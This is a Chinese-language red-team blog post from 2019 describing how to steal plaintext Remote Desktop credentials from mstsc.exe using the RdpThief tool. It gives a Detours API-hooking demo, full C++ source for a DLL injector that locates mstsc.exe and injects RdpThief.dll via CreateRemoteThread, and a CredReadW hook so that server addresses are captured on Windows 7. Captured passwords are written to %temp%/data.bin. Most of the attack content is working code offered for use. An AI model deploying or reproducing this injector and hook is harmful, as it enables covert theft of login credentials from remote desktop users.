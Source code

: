 ```yaml
---
layout:     post
title:    mstsc中提取明文凭据-RdpThief实践
subtitle:   RdpThief实践
date:       2019-12-24
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 后门
    - 红队
    - 内网渗透
---
```

# 从mstsc中提取明文凭据-RdpThief实践

## 简介
尝试使用RdpThief从远程桌面客户端提取明文凭据，通过读取运行过程中mstsc的内存数据，监控API调用，找到后hook对应API，从中导出存储的明文口令。  

## 准备工作
首先先需要安装Detours库。  
Detours库用于监视和检测Windows上的API调用，可以用来hook系统API。  
这里我用的是vs2015，直接通过命令安装了：  
```
vs2015->工具->NuGet包管理器->程序包管理器控制台 
Install-Package Detours  
```
![191224_2](/img/191220_installdetours.png)  
通过一个小小的demo演示下hook。   
```
#include <Windows.h>
#include <detours.h> //加载detours库
#pragma comment (lib,"detours.lib")
static int(WINAPI *TrueMessageBox)(HWND, LPCTSTR, LPCTSTR, UINT) = MessageBox; //根据函数原型来定义要被HOOk的函数（MSDN函数怎么写的你就怎么定义）
int WINAPI OurMessageBox(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType) { //成功HOOK后的处理函数
    return TrueMessageBox(NULL, L"Hooked", lpCaption, 0); //HOOK messagebox
}
int main()
{
    DetourTransactionBegin(); //初始化
    DetourUpdateThread(GetCurrentThread()); 
    DetourAttach(&(PVOID&)TrueMessageBox, OurMessageBox);  //加载要HOOK的函数
    DetourTransactionCommit(); //开始HOOK
    MessageBox(NULL, L"Hello", L"Hello", 0);
    DetourTransactionBegin(); //HOOK初始化
    DetourUpdateThread(GetCurrentThread()); //刷新本身线程
    DetourDetach(&(PVOID&)TrueMessageBox, OurMessageBox);  //取消HOOK
    DetourTransactionCommit(); //取消HOOK开始
}
```  
编译运行：  
![191224_1](/img/191220_hook.png)  
## 编译RdpThief
先去下载项目文件，项目地址[https://github.com/0x09AL/RdpThief](https://github.com/0x09AL/RdpThief)  
vs2015 有可能碰到由于工具集问题导致编译失败的情况，在项目属性中的常规项中修改工具集平台为v140。  
![191224_3](/img/191220_v141.png)  
编译成功后就可以得到一个dll文件。  
接下来就是要将这个dll注入到对一个的mstsc进程里面。  

## dll 注入 
这里为了方便自动化，直接先通过进程名搜索pid，然后向对应pid进程注入dll。  
这里直接把我的代码贴了：  
```
// detourstest.cpp : 定义控制台应用程序的入口点。
//

#include "stdafx.h"
#include "Windows.h"
#include <detours.h>
#include <string.h>
#include <tlhelp32.h>
#pragma comment (lib,"detours.lib")

#define ArraySize(ptr)    (sizeof(ptr) / sizeof(ptr[0]))
/*
static int(WINAPI *TrueMessageBox)(HWND, LPCTSTR, LPCTSTR, UINT) = MessageBox;
int WINAPI OurMessageBox(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType) {
	return TrueMessageBox(NULL, L"Hooked", lpCaption, 0);
}
int main()
{
	DetourTransactionBegin();
	DetourUpdateThread(GetCurrentThread());
	DetourAttach(&(PVOID&)TrueMessageBox, OurMessageBox);
	DetourTransactionCommit();
	MessageBox(NULL, L"Hello", L"Hello", 0);
	DetourTransactionBegin();
	DetourUpdateThread(GetCurrentThread());
	DetourDetach(&(PVOID&)TrueMessageBox, OurMessageBox);
	DetourTransactionCommit();
}
*/


BOOL FindProcessPid(LPCWSTR ProcessName, DWORD& dwPid);


int main()
{
	LPCWSTR Name = L"mstsc.exe";
	// StopMyService();
	DWORD dwPid = 0;
	HANDLE ProcessHandle;
	PVOID RemoteBuffer;
	wchar_t DllPath[] = TEXT("C:\\RdpThief.dll");




	if (FindProcessPid(Name, dwPid))
	{
		//printf("[%ls] [%d]\n",Name, dwPid);
		ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
		RemoteBuffer = VirtualAllocEx(ProcessHandle, NULL, sizeof DllPath, MEM_COMMIT, PAGE_READWRITE);
		WriteProcessMemory(ProcessHandle, RemoteBuffer, (LPVOID)DllPath, sizeof DllPath, NULL);
		PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
		CreateRemoteThread(ProcessHandle, NULL, 0, threatStartRoutineAddress, RemoteBuffer, 0, NULL);
		CloseHandle(ProcessHandle);

	}
	else
	{
		printf("[%ls] [Not Found]\n", Name);
	}
	
	return 0;
}

BOOL FindProcessPid(LPCWSTR ProcessName, DWORD& dwPid)
{
	HANDLE hProcessSnap;
	PROCESSENTRY32 pe32;

	// Take a snapshot of all processes in the system.
	hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hProcessSnap == INVALID_HANDLE_VALUE)
	{
		return(FALSE);
	}

	pe32.dwSize = sizeof(PROCESSENTRY32);

	if (!Process32First(hProcessSnap, &pe32))
	{
		CloseHandle(hProcessSnap);          // clean the snapshot object
		return(FALSE);
	}

	BOOL    bRet = FALSE;
	do
	{
		if (!lstrcmp(ProcessName, pe32.szExeFile))
		{
			dwPid = pe32.th32ProcessID;
			bRet = TRUE;
			break;
		}

	} while (Process32Next(hProcessSnap, &pe32));

	CloseHandle(hProcessSnap);
	return bRet;
}
```
编译以后测试下。  
用Process Explorer看下是否注入成功。  
![191224_4](/img/191220_injectDll.png)  
然后正常登录，无论成功与否，都是会记录下来保存在%temp%/data.bin文件中。  
![191224_5](/img/191220_data.png)  


## 注意
我这里测试的是win10下，根据几个老师傅的测试win7下是不存在SspiPrepareForCredRead这个API，自然就无法将登录服务器的ip记录下来，需要修改RdpThief的代码，通过CredReadW这个API去获取对应的ip。  
所以只需要在源代码中增加对CredReadW的hook即可。  
```
static BOOL(WINAPI *OriginalCredReadW)(LPCWSTR TargetName, DWORD Type, DWORD Flags, PCREDENTIALW *Credential) = CredReadW;
BOOL HookedCredReadW(LPCWSTR TargetName, DWORD Type, DWORD Flags, PCREDENTIALW *Credential)
{
	lpServer = TargetName;
	return OriginalCredReadW(TargetName, Type, Flags, Credential);
}
```
不要忘了attach加载hook和detach取消hook。  

## 补充
对应的代码我已经放在github上了，win7的暂时没测试，只是参考改了下，能编译通过。  
项目地址：[https://github.com/hmoytx/RdpThief_tools](https://github.com/hmoytx/RdpThief_tools)  
